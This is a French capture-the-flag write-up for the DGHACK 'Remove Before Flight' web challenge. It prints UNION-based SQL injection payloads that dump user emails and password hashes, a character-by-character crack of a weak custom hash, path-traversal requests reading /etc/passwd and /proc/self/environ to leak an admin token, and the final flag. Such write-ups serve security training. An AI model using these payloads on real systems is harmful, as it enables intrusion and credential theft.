

# Remove Before Flight

### Description

L'application Super Flight Tracker vous permet de suivre les vols en temps réel. Commencez à l'utiliser dès maintenant pour accéder aux données les plus récentes sur les vols du monde entier.

Nous sommes ravis de vous annoncer qu'une toute nouvelle version de l'application est actuellement en bêta ouverte. Dans cette version, nous avons considérablement renforcé la sécurité en utilisant un algorithme de chiffrement propriétaire. De plus, nous avons écouté vos commentaires et suggestions, et nous travaillons activement à l'amélioration de l'expérience utilisateur. Pour cela, nous avons sélectionné un groupe d'utilisateurs privilégiés qui auront la chance de tester en avant-première une fonctionnalité révolutionnaire : la synchronisation automatique des données !

### Accès à l'épreuve

http://removebeforeflight.chall.malicecyber.com/

----

### 1. Recherche de SQLi

Rien de notable sur la page d'accueil, hormis la possibilité de s'authentifier ou de créer un compte.

Quelques tests sur ces 2 formulaires ne permettent pas de réaliser une SQLi, du moins de façon évidente.

On crée un compte :


Une fois authentifié, le formulaire de recherche des vols est accessible via le menu Tracker :



Cependant, la recherche (ex: Paris comme ville de départ) ne semble pas fonctionner. Une erreur, présente dans la console du navigateur, empêche le rafraichissement du tableau de résultat.

Par contre côté réseau, on voit bien que l'appel de l'API est OK.
Par exemple avec la requête suivante :

```http
POST http://removebeforeflight.chall.malicecyber.com/tracker/search HTTP/1.1
Content-Type: application/json;charset=UTF-8
Pragma: no-cache
Cookie: GSESSIONID=xxxxxxxxxxxxxxxxxxxxxxxxx
Content-Type: application/json

{"departure":"Paris","arrival":"","departure_date":"","arrival_date":"","number":"","airplane":""}
```

La réponse ne contient bien que les vols en partance de Paris :
```json
{"Table":"\n\t\u003ctable class=\"table table-striped table-hover table-bordered align-middle\"\u003e\n\t\t\u003cthead\u003e\n\t\t\t\u003ctr\u003e\n\t\t\t\t\u003cth scope=\"col\"\u003eNumber\u003c/th\u003e\n\t\t\t\t\u003cth scope=\"col\"\u003eDeparture\u003c/th\u003e\n\t\t\t\t\u003cth scope=\"col\"\u003eArrival\u003c/th\u003e\n\t\t\t\t\u003cth scope=\"col\"\u003eDeparture date\u003c/th\u003e\n\t\t\t\t\u003cth scope=\"col\"\u003eArrival date\u003c/th\u003e\n\t\t\t\t\u003cth scope=\"col\"\u003eAirplane\u003c/th\u003e\n\t\t\t\u003c/tr\u003e\n\t\t\u003c/thead\u003e\n\t\t\u003ctbody\u003e\n\t\n\t\t\t\u003ctr\u003e\n\t\t\t\t\u003ctd\u003eABC123\u003c/td\u003e\n\t\t\t\t\u003ctd\u003eParis\u003c/td\u003e\n\t\t\t\t\u003ctd\u003eLondon\u003c/td\u003e\n\t\t\t\t\u003ctd\u003e2023-08-01 11:10:00\u003c/td\u003e\n\t\t\t\t\u003ctd\u003e2023-08-01 12:15:00\u003c/td\u003e\n\t\t\t\t\u003ctd\u003eAirbus A320\u003c/td\u003e\n\t\t\t\u003c/tr\u003e\n\t\t\t\u003ctr\u003e\n\t\t\t\t\u003ctd\u003eVWX234\u003c/td\u003e\n\t\t\t\t\u003ctd\u003eParis\u003c/td\u003e\n\t\t\t\t\u003ctd\u003eRome\u003c/td\u003e\n\t\t\t\t\u003ctd\u003e2023-09-12 08:45:00\u003c/td\u003e\n\t\t\t\t\u003ctd\u003e2023-09-12 11:00:00\u003c/td\u003e\n\t\t\t\t\u003ctd\u003eAirbus A330\u003c/td\u003e\n\t\t\t\u003c/tr\u003e\n\t\t\u003c/tbody\u003e\n\t\u003c/table\u003e","Notif":{"Color":"","Message":""}}
```

On essaie d'exploiter une SQLi dans le payload :
```json
{ "arrival" : "ABC123' order by 1 -- "}
```

Bingo. c'est OK.

----

### 2. Utilisation SQLi pour extraire des données de la base

En faisant varier la valeur du `order by`, on identifie que la requête manipule 6 colonnes.

Le payload suivant permet de valider "visuellement" où les données injectées sont utilisées dans le résultat :
```json
{ "arrival" : "ABC123' and 1=1 union select '11111','22222','33333','44444','55555','66666' -- "}
```

Après quelques tatonnements, on identifie que le moteur de la base est SQLite :
```json
{ "arrival" : "ABC123' and 1=1 union select '1','2','3','4','5',sqlite_version() -- "}
```

On récupére ensuite la liste des tables (`users` et `flights`) :
```json
{ "arrival" : "ABC123' and 1=1 union select '1','2','3','4','5', name from sqlite_schema -- "}
```

Puis la liste des colonnes (`email`, `password`, `type` et `username`) de la table `users` :
```json
{ "arrival" : "ABC123' and 1=1 union select '1','2','3','4','5', name from pragma_table_info('users') -- "}
```

Et pour finir les données de la table `users` :
```json
{ "arrival" : "ABC123' and 1=1 union select '1','2','3','4','5', email || '|' || password || '|' || type || '|' || username from users -- " }
```

Exemple de données extraites :
```html
<td>tutu@tutu.fr|41414e6a586e465359313578556d4e6563564a6a586e465359313578556d4e65|3|tutu</td>
<td>premium@domain.com|4251302f416e555164316f7a5552426563513579586e465359313578556d4e65|2|Gold3nBoy</td>
<td>admin@domain.com|4141592b5479383941793479455352654d775a6a586e465359313578556d4e65|1|Administrator</td>
```

3 `types d'utilisateur existent :
- `Administrator` (`type=1`) qui est vraisemblablement le compte administrateur
- `Gold3nBoy` (`type=2`) probablement un compte utilisateur privilégié, comme indiqué dans l'énoncé, avec des fonctionnalités avancées à découvrir.
- `tutu` (`type=3`) notre compte qui est un compte standard

Ne pourrait-on pas essayer de modifier le `type` du compte utilisé ? Malheureusement le formulaire de changement de mot de passe ne semble pas faillible aux SQLi. Il faut trouver une autre piste.

----

### 3. Détermination des mots de passe des comptes Administrator et Gold3nBoy

Quelques tests plus tard, il semble que la fonction de "hashage" utilisée sur le `password` soit "faible".
Par exemple, lorsqu'on modifie uniquement le fin du password (exemple : `tutu` devient `tuta`) :
- seule une partie des 2 passwords hashés est différente
- les débuts sont identiques
- les fins sont identiques => vraisemblablement un padding de remplissage est réalisé avant hashage.

Par conséquent, la promesse de renforcement de la sécurité via un algorithme de chiffrement propriétaire, comme indiqué dans l'énoncé, n'est pas au rendez-vous.

A noter que la base est réinialisée régulièrement, et qu'alors les `password` sont valorisés différemmnent => il y a probablement un "salt" utilisé qui diffère à chaque redémarrage.

En supposant que les passwords sont composés de lettres, chiffres et caractères spéciaux (`string.ascii_letters + string.digits  + string.punctuation`), via la fonctionnalité de changement de mot de passe, on brute force caractère par caractère les mots de passe des 2 comptes `Administrator` et `Gold3nBoy`, en comparant le début des passwords hashés en base.

A noter, que le mot de passe ne peut être changé qu'une seule fois par session, ce qui nécessite de se déconnecter / reconnecter entre 2 tentatives de modification du mot de passe.

Pour cette étape, je me suis appuyé en partie sur un script : [client-http.py](client-http.py).  
A partir du début décrypté du mot de passe (`decoded_admin_password`), celui-ci récupère tous les hashs des mots de passe construits avec le début décrypté auquel 1 seul caractère a été rajouté en fin (ie : `decoded_admin_password + car`).  
Ensuite, j'ai réalisé la comparaison manuellement / visuellement, pour identifier le meilleur `car` candidat (en se disant que potentiellement le mot de passe est une suite de mots dont certaines lettres ont été "leet"ifiées).  
Avant de recommencer pour chaque caractère du mot de passe, un par un.

Exemple alors que `Adm!n_` a été identifié comme début du mot de passe du compte `Administrator` :
```
encoded_admin_password='4b795542566751655044635a4d68744847435663523170785845646163567848'
encoded_user_password='4b7955425667512f5845646163567848576e4663523170785845646163567848'
test : Adm!n~ 4b7955425667512f5845646163567848576e4663523170785845646163567848 -> Adm!n_a
test : Adm!n_a 4b795542566751654455646163567848576e4663523170785845646163567848 -> Adm!n_b
test : Adm!n_b 4b79554256675165446b646163567848576e4663523170785845646163567848 -> Adm!n_c
test : Adm!n_c 4b795542566751654430646163567848576e4663523170785845646163567848 -> Adm!n_d
test : Adm!n_d 4b795542566751654345646163567848576e4663523170785845646163567848 -> Adm!n_e
test : Adm!n_e 4b795542566751654355646163567848576e4663523170785845646163567848 -> Adm!n_f
test : Adm!n_f 4b79554256675165436b646163567848576e4663523170785845646163567848 -> Adm!n_g
test : Adm!n_g 4b795542566751654330646163567848576e4663523170785845646163567848 -> Adm!n_h
test : Adm!n_h 4b795542566751654245646163567848576e4663523170785845646163567848 -> Adm!n_i
test : Adm!n_i 4b795542566751654255646163567848576e4663523170785845646163567848 -> Adm!n_j
test : Adm!n_j 4b79554256675165426b646163567848576e4663523170785845646163567848 -> Adm!n_k
test : Adm!n_k 4b795542566751654230646163567848576e4663523170785845646163567848 -> Adm!n_l
test : Adm!n_l 4b795542566751654145646163567848576e4663523170785845646163567848 -> Adm!n_m
test : Adm!n_m 4b795542566751654155646163567848576e4663523170785845646163567848 -> Adm!n_n
test : Adm!n_n 4b79554256675165416b646163567848576e4663523170785845646163567848 -> Adm!n_o
test : Adm!n_o 4b795542566751654130646163567848576e4663523170785845646163567848 -> Adm!n_p
test : Adm!n_p 4b795542566751654845646163567848576e4663523170785845646163567848 -> Adm!n_q
test : Adm!n_q 4b795542566751654855646163567848576e4663523170785845646163567848 -> Adm!n_r
test : Adm!n_r 4b79554256675165486b646163567848576e4663523170785845646163567848 -> Adm!n_s
test : Adm!n_s 4b795542566751654830646163567848576e4663523170785845646163567848 -> Adm!n_t
test : Adm!n_t 4b795542566751654745646163567848576e4663523170785845646163567848 -> Adm!n_u
test : Adm!n_u 4b795542566751654755646163567848576e4663523170785845646163567848 -> Adm!n_v
test : Adm!n_v 4b79554256675165476b646163567848576e4663523170785845646163567848 -> Adm!n_w
test : Adm!n_w 4b795542566751654730646163567848576e4663523170785845646163567848 -> Adm!n_x
test : Adm!n_x 4b795542566751654645646163567848576e4663523170785845646163567848 -> Adm!n_y
test : Adm!n_y 4b795542566751654655646163567848576e4663523170785845646163567848 -> Adm!n_z
test : Adm!n_z 4b79554256675165466b646163567848576e4663523170785845646163567848 -> Adm!n_A
test : Adm!n_A 4b795542566751654c55646163567848576e4663523170785845646163567848 -> Adm!n_B
test : Adm!n_B 4b795542566751654c6b646163567848576e4663523170785845646163567848 -> Adm!n_C
test : Adm!n_C 4b795542566751654c30646163567848576e4663523170785845646163567848 -> Adm!n_D
test : Adm!n_D 4b795542566751654b45646163567848576e4663523170785845646163567848 -> Adm!n_E
test : Adm!n_E 4b795542566751654b55646163567848576e4663523170785845646163567848 -> Adm!n_F
test : Adm!n_F 4b795542566751654b6b646163567848576e4663523170785845646163567848 -> Adm!n_G
test : Adm!n_G 4b795542566751654b30646163567848576e4663523170785845646163567848 -> Adm!n_H
test : Adm!n_H 4b795542566751654a45646163567848576e4663523170785845646163567848 -> Adm!n_I
test : Adm!n_I 4b795542566751654a55646163567848576e4663523170785845646163567848 -> Adm!n_J
test : Adm!n_J 4b795542566751654a6b646163567848576e4663523170785845646163567848 -> Adm!n_K
test : Adm!n_K 4b795542566751654a30646163567848576e4663523170785845646163567848 -> Adm!n_L
test : Adm!n_L 4b795542566751654945646163567848576e4663523170785845646163567848 -> Adm!n_M
test : Adm!n_M 4b795542566751654955646163567848576e4663523170785845646163567848 -> Adm!n_N
test : Adm!n_N 4b79554256675165496b646163567848576e4663523170785845646163567848 -> Adm!n_O
test : Adm!n_O 4b795542566751654930646163567848576e4663523170785845646163567848 -> Adm!n_P
test : Adm!n_P 4b795542566751655045646163567848576e4663523170785845646163567848 -> Adm!n_Q
test : Adm!n_Q 4b795542566751655055646163567848576e4663523170785845646163567848 -> Adm!n_R
test : Adm!n_R 4b79554256675165506b646163567848576e4663523170785845646163567848 -> Adm!n_S
test : Adm!n_S 4b795542566751655030646163567848576e4663523170785845646163567848 -> Adm!n_T
test : Adm!n_T 4b795542566751654f45646163567848576e4663523170785845646163567848 -> Adm!n_U
test : Adm!n_U 4b795542566751654f55646163567848576e4663523170785845646163567848 -> Adm!n_V
test : Adm!n_V 4b795542566751654f6b646163567848576e4663523170785845646163567848 -> Adm!n_W
test : Adm!n_W 4b795542566751654f30646163567848576e4663523170785845646163567848 -> Adm!n_X
test : Adm!n_X 4b795542566751654e45646163567848576e4663523170785845646163567848 -> Adm!n_Y
test : Adm!n_Y 4b795542566751654e55646163567848576e4663523170785845646163567848 -> Adm!n_Z
test : Adm!n_Z 4b795542566751654e6b646163567848576e4663523170785845646163567848 -> Adm!n_0
test : Adm!n_0 4b795542566751655845646163567848576e4663523170785845646163567848 -> Adm!n_1
test : Adm!n_1 4b795542566751655855646163567848576e4663523170785845646163567848 -> Adm!n_2
test : Adm!n_2 4b79554256675165586b646163567848576e4663523170785845646163567848 -> Adm!n_3
test : Adm!n_3 4b795542566751655830646163567848576e4663523170785845646163567848 -> Adm!n_4
test : Adm!n_4 4b795542566751655745646163567848576e4663523170785845646163567848 -> Adm!n_5
test : Adm!n_5 4b795542566751655755646163567848576e4663523170785845646163567848 -> Adm!n_6
test : Adm!n_6 4b79554256675165576b646163567848576e4663523170785845646163567848 -> Adm!n_7
test : Adm!n_7 4b795542566751655730646163567848576e4663523170785845646163567848 -> Adm!n_8
test : Adm!n_8 4b795542566751655645646163567848576e4663523170785845646163567848 -> Adm!n_9
test : Adm!n_9 4b795542566751655655646163567848576e4663523170785845646163567848 -> Adm!n_!
test : Adm!n_! 4b795542566751655455646163567848576e4663523170785845646163567848 -> Adm!n_"
test : Adm!n_" 4b79554256675165546b646163567848576e4663523170785845646163567848 -> Adm!n_#
test : Adm!n_# 4b795542566751655430646163567848576e4663523170785845646163567848 -> Adm!n_$
test : Adm!n_$ 4b795542566751655345646163567848576e4663523170785845646163567848 -> Adm!n_%
test : Adm!n_% 4b795542566751655355646163567848576e4663523170785845646163567848 -> Adm!n_&
test : Adm!n_& 4b79554256675165536b646163567848576e4663523170785845646163567848 -> Adm!n_'
test : Adm!n_' 4b795542566751655330646163567848576e4663523170785845646163567848 -> Adm!n_(
test : Adm!n_( 4b795542566751655245646163567848576e4663523170785845646163567848 -> Adm!n_)
test : Adm!n_) 4b795542566751655255646163567848576e4663523170785845646163567848 -> Adm!n_*
test : Adm!n_* 4b79554256675165526b646163567848576e4663523170785845646163567848 -> Adm!n_+
test : Adm!n_+ 4b795542566751655230646163567848576e4663523170785845646163567848 -> Adm!n_,
test : Adm!n_, 4b795542566751655145646163567848576e4663523170785845646163567848 -> Adm!n_-
test : Adm!n_- 4b795542566751655155646163567848576e4663523170785845646163567848 -> Adm!n_.
test : Adm!n_. 4b79554256675165516b646163567848576e4663523170785845646163567848 -> Adm!n_/
test : Adm!n_/ 4b795542566751655130646163567848576e4663523170785845646163567848 -> Adm!n_:
test : Adm!n_: 4b79554256675165566b646163567848576e4663523170785845646163567848 -> Adm!n_;
test : Adm!n_; 4b795542566751655630646163567848576e4663523170785845646163567848 -> Adm!n_<
test : Adm!n_< 4b795542566751655545646163567848576e4663523170785845646163567848 -> Adm!n_=
test : Adm!n_= 4b795542566751655555646163567848576e4663523170785845646163567848 -> Adm!n_>
test : Adm!n_> 4b79554256675165556b646163567848576e4663523170785845646163567848 -> Adm!n_?
test : Adm!n_? 4b795542566751655530646163567848576e4663523170785845646163567848 -> Adm!n_@
test : Adm!n_@ 4b795542566751654c45646163567848576e4663523170785845646163567848 -> Adm!n_[
test : Adm!n_[ 4b795542566751654e30646163567848576e4663523170785845646163567848 -> Adm!n_\
test : Adm!n_\ 4b795542566751654d45646163567848576e4663523170785845646163567848 -> Adm!n_]
test : Adm!n_] 4b795542566751654d55646163567848576e4663523170785845646163567848 -> Adm!n_^
test : Adm!n_^ 4b795542566751654d6b646163567848576e4663523170785845646163567848 -> Adm!n__
test : Adm!n__ 4b795542566751654d30646163567848576e4663523170785845646163567848 -> Adm!n_`
test : Adm!n_` 4b795542566751654445646163567848576e4663523170785845646163567848 -> Adm!n_{
test : Adm!n_{ 4b795542566751654630646163567848576e4663523170785845646163567848 -> Adm!n_|
test : Adm!n_| 4b795542566751654545646163567848576e4663523170785845646163567848 -> Adm!n_}
test : Adm!n_} 4b795542566751654555646163567848576e4663523170785845646163567848 -> Adm!n_~
```

Les mots de passe ainsi obtenus sont :

| Compte          | Mot de passe      |
| -               | -                 |
| `Administrator` | `Adm!n_P@ssw0rd`  |
| `Gold3nBoy`     | `Doll4r$4r3C00l!` |

----

### 4. Connexion en tant que `Administrator`

Une fois connecté avec le compte `Administrator`, un menu `Admin` est disponible :


Mais, celui-ci est protégé par un `ADMIN_SECRET_TOKEN`

Où trouver cette information ? dans un fichier de configuration ? dans les variables d'environnement ?

----

### 5. Connexion en tant que `Gold3nBoy`

Pour ce compte, un menu permet de télécharger les informations des vols, soit au format JSON, soit au format CSV

Pour le format CSV, on utilise le lien :
```html
<a href="/premium/download?format=csv" ...>
```
Le résultat est alors par exemple :
```csv
flight_number,departure,arrival,departure_date,arrival_date,airplane
ABC123,Paris,London,2023-08-01 11:10:00,2023-08-01 12:15:00,Airbus A320
DEF456,Hong Kong,Tokyo,2023-11-02 07:45:00,2023-11-02 09:20:00,Airbus A350
GHI789,New York,Berlin,2023-12-03 13:30:00,2023-12-03 20:30:00,Boeing 787
JKL012,London,Paris,2023-08-03 16:20:00,2023-08-03 17:25:00,Airbus A320
MNO345,Tokyo,Hong Kong,2023-11-05 10:00:00,2023-11-05 11:35:00,Airbus A350
PQR678,Berlin,New York,2023-12-07 06:15:00,2023-12-07 13:15:00,Boeing 787
STU901,Sydney,Los Angeles,2023-10-10 21:30:00,2023-10-10 15:00:00,Boeing 747
VWX234,Paris,Rome,2023-09-12 08:45:00,2023-09-12 11:00:00,Airbus A330
```

De même pour le format JSON, le lien à utiliser est :
```html
<a href="/premium/download?format=json" ...>
```

Quelques tentatives d'exploiter un path-traversal sur le query parameter `format` :
- href="/premium/download?format=/etc/passwd"            => rien
- href="/premium/download?format=../etc/passwd"          => rien
- href="/premium/download?format=../../etc/passwd"       => rien
- href="/premium/download?format=../../../etc/passwd"    => rien
- href="/premium/download?format=../../../../etc/passwd" => Bingo !!! le fichier est récupéré

Fichier `/etc/passwd` obtenu :
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:101:101::/run/uuidd:/usr/sbin/nologin
```

D'autres tentatives :
- href="/premium/download?format=../../../../flag"          => rien
- href="/premium/download?format=../../../../root/.profile" => fichier récupéré, mais rien d'intéressant dedans

Et si `ADMIN_SECRET_TOKEN` était défini en tant que variable d'environnement du processus ?
Dans ce cas, il devrait être accessible via le fichier `/proc/self/environ`

On utilise le lien suivant :
- href="/premium/download?format=../../../../proc/self/environ"

Qui permet de récupérer les informations suivantes :
```env
HOSTNAME=0c24ee98e0cb
HOME=/root
ADMIN_SECRET_TOKEN=40e8a3b6-3ad8-4ce4-bf46-3b16f2757f0f
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CHALLENGE_DOMAIN=removebeforeflight.chall.malicecyber.com
CHALLENGE_PORT=80
PWD=/app
```

Bingo !! On a trouvé le token dans les variables d'environnement.

----

### 6. Le final

Y a plus qu'à se reconnecter avec le compte `Administrator`, et saisir `40e8a3b6-3ad8-4ce4-bf46-3b16f2757f0f` comme valeur du `ADMIN_SECRET_TOKEN`.

La page http://removebeforeflight.chall.malicecyber.com/admin?secret_token=40e8a3b6-3ad8-4ce4-bf46-3b16f2757f0f s'affiche avec le contenu suivant :

```
Admin Dashboard work in progress.
Powered by DGHACK{CvE_2022_32190_i$_A_j0k3}
```

Le flag est donc : `DGHACK{CvE_2022_32190_i$_A_j0k3}`
